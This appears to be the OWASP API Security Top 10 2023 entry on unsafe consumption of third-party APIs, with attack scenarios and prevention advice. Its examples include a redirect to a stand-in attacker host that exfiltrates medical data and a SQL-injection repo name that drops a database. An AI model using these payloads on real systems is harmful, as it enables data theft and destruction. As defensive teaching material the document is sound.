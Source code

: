API10:2023 Unsafe Consumption of APIs
=====================================

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **2** | Prevalence **2** : Detectability **1** | Technical **3** : Business Specific |
| Developers often trust external or third-party APIs without proper verification, leaving their endpoints vulnerable to security flaws. | API integrations typically exhibit weaker security measures, such as transport security, authentication/authorization, and input validation and sanitization. | Common issues include unauthorized exposure of sensitive information and various types of injections. |

## Is the API Vulnerable?

Developers tend to trust data received from third-party APIs more than user
input. This is especially true for APIs offered by well-known companies.
Because of that, developers tend to adopt weaker security standards, for
instance, in regards to input validation and sanitization.

The API might be vulnerable if:

* Interacts with other APIs over an unencrypted channel;
* Does not properly validate and sanitize data gathered from other APIs prior
  to processing it or passing it to downstream components;
* Blindly follows redirections;
* Does not limit the number of resources available to process third-party
  services responses;
* Does not implement timeouts for interactions with third-party services;

## Example Attack Scenarios

### Scenario #1

An API relies on a third-party service to enrich user provided business
addresses. When an address is supplied to the API by the end user, it is sent
to the third-party service and the returned data is then stored on a local
SQL-enabled database.

Bad actors use the third-party service to store an SQLi payload associated with
a business created by them. Then they go after the vulnerable API providing
specific input that makes it pull their "malicious business" from the
third-party service. The SQLi payload ends up being executed by the database,
exfiltrating data to an attacker's controlled server.

### Scenario #2

An API integrates with a third-party service provider to safely store sensitive
user medical information. Data is sent over a secure connection using an HTTP
request like the one below:

```
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

Bad actors found a way to compromise the third-party API and it starts
responding with a 308 Permanent Redirect to requests like the previous one.

```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

Since the API blindly follows the third-party redirects, it will repeat the
exact same request including the user's sensitive data, but this time to the
attacker's server.

### Scenario #3

An attacker can prepare a git repo named `'; drop db;--`.

Now, when an integration from an attacked application is done with the
malicious repo, an injection payload is used on an application that builds an
SQL query believing the repo's name is safe input.

## How To Prevent

* When evaluating service providers, assess their API security posture.
* Ensure all API interactions happen over a secure communication channel (TLS).
* Always validate and properly sanitize data received from integrated APIs
  before using it.
* Maintain an allowlist of well-known locations integrated APIs may redirect
  yours to: do not blindly follow redirects.


## References

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### External

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
